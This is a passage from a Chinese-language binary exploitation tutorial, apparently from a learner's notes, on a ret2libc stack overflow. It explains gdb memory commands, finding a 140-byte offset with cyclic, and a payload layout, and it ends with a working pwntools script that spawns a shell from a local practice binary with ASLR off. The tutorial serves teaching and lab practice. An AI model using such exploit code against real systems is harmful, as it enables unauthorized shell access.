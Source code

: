 >
> <font style="color:#4F4F4F;">x/<n/f/u> <addr> 查看某地址处的值，n/f/u 参数为可选，n代表想要查看多少个内存单元即从当前地址开始计算，每个内存单元的大小由后面的u参数指定；</font><font style="color:#4F4F4F;">f表示显示格式，如s表示字符串形式，i为指令形式；u指定内存单元大小，b(一个字节)、h(双字节)、w(四个字节)、g(八字节)默认为w；</font>        <font style="color:#4F4F4F;">后面跟上x代表以十六进制的形式查看变量</font>
>
> <font style="color:#4F4F4F;">set *addr = value 设置某个地址的值</font>
>

更多命令可以查看[这里](http://www.cabrillo.edu/~shodges/cs19/progs/guide_to_gdb_1.1.pdf)。

cyclic 命令可以打印出类似四字节一循环的字符串，返回地址被这些值覆盖后程序运行就会报无效地址错误。用gdb调式程序，输入 r 运行程序，停在输入处输入cyclic字符串，查看无效地址

![](https://cdn.nlark.com/yuque/0/2020/jpeg/574026/1596598382572-29482d75-3a5b-492d-a387-462d3596cc4e.jpeg)![](https://cdn.nlark.com/yuque/0/2020/jpeg/574026/1596598382564-3cb6f52a-1666-4bb3-9db2-0fd2afa20ed2.jpeg)

通过cyclic -l addr 命令可以得到返回地址与缓冲区的偏移

```plain
cyclic -l 0x6261616b
140
```

### 4、构造payload
payload = 'a' * 140 + system_addr + system_ret_addr + binsh_addr

main返回地址处放置 system() 函数的地址使当函数运行完毕时跳转到 system() 函数处继续执行，**<font style="color:#F5222D;">函数的调用过程是先将参数入栈，接着保存返回地址，最后call system。</font>**system_ret_addr 是 system() 函数的返回地址，因为我们的目的就是打开shell，**<font style="color:#F5222D;">所以这个返回地址随便设置 一个值就可以</font>**。binsh_addr 放置的是参数 "/bin/sh" 字符串的地址

### 5、用 pwntools 编写 exp
```python
from pwn import *
#context.log_level = 'debug'
debug = 1
if debug:
	sh = process('./ret2lib')
system_addr = 0xf7e08870
binsh_addr  = 0xf7f47968
payload = 'a' * 140 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
def pwn(sh, payload):
	sh.sendline(payload)
	sh.interactive()
pwn(sh, payload)
```

![](https://cdn.nlark.com/yuque/0/2020/jpeg/574026/1596598382562-c0e5267f-8ea7-4fc1-9c97-2486382f81c9.jpeg)

利用之前计算好的地址可以很轻松的拿到shell，当然这只是在关闭掉 ASLR 的情况下，下一篇会学习另外一种 ROP 技术来绕过ASLR 防，pwn 也会变得越来越有意思了。

## 0x07总结
> 参考资料：[http://www.vuln.cn/6465](http://www.vuln.cn/6465)
>
> 略有改动
>
